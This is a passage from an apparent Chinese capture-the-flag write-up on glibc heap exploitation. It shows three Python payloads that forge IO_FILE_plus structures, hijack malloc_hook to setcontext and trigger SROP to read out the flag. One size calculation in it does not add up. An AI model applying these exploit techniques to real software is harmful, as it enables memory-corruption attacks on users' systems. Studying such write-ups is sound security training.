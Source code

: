 [![img](https://p3.ssl.qhimg.com/t017a32afa21fdf6fb5.png)](https://p3.ssl.qhimg.com/t017a32afa21fdf6fb5.png)

然后我们看一下我们的fake IO_FILE_plus
**Fake IO_FILE_plus1(malloc(0x90))**

```
payload = p64(0)*2+p64(0)+p64(heap_base+0x29d0)+p64(0) #rdx
payload += p64(heap_base+0x10+0x290)+p64(heap_base+22+0x10+0x290)+p64(0)*4 #size
payload += p64(heap_base+0x1a90)+p64(0)+p64(0)+"\x00"*8 #_chain
payload += p64(0)*4+"\x00"*48
payload += p64(0x1ed560+libc_base)
```

可以看到第二行的两个地址差22，而通过我们的size计算可以得出size = (0x90-100)/2 = 22

[![img](https://p4.ssl.qhimg.com/t010103630cc92153e2.png)](https://p4.ssl.qhimg.com/t010103630cc92153e2.png)

执行完之后：

[![img](https://p4.ssl.qhimg.com/t019a05f4eec2600874.png)](https://p4.ssl.qhimg.com/t019a05f4eec2600874.png)

**Fake IO_FILE_plus2(malloc(0x90) && hijack malloc_hook = setcontext)**

```
payload = p64(0)*2+p64(0)+p64(heap_base+0x29d0)+p64(0) #rdx
payload += p64(heap_base+0x30+0x290)+p64(heap_base+22+0x30+0x290)+p64(0)*4 #size
payload += p64(heap_base+0x1fa0)+p64(0)+p64(0)+"\x00"*8 #chain
payload += p64(0)*4+"\x00"*48
payload += p64(0x1ed560+libc_base)
```

[![img](https://p3.ssl.qhimg.com/t019bbb73d2089b8dab.png)](https://p3.ssl.qhimg.com/t019bbb73d2089b8dab.png)

执行之后：

[![img](https://p4.ssl.qhimg.com/t01359312968708ac80.png)](https://p4.ssl.qhimg.com/t01359312968708ac80.png)

可以看到已经成功将malloc_hook劫持为setcontext,接下来执行第三个IO_FILE_plus就会触发srop，orw出flag
**Fake IO_FILE_plus3:(srop)**

```
payload = p64(0)*2+p64(0)+p64(heap_base+0x29d0)+p64(0) #write
payload += p64(heap_base+0x50+0x290)+p64(heap_base+22+0x50+0x290)+p64(0)*4
payload += p64(heap_base+0x1fa0)+p64(0)+p64(0)+"\x00"*8
payload += p64(0)*4+"\x00"*48
payload += p64(0x1ed560+libc_base)
```

[![img](https://p0.ssl.qhimg.com/t0195570e6d822ae8e8.png)](https://p0.ssl.qhimg.com/t0195570e6d822ae8e8.png)

[![img](https://p0.ssl.qhimg.com/t01114db3b46acbee25.png)](https://p0.ssl.qhimg.com/t01114db3b46acbee25.png)
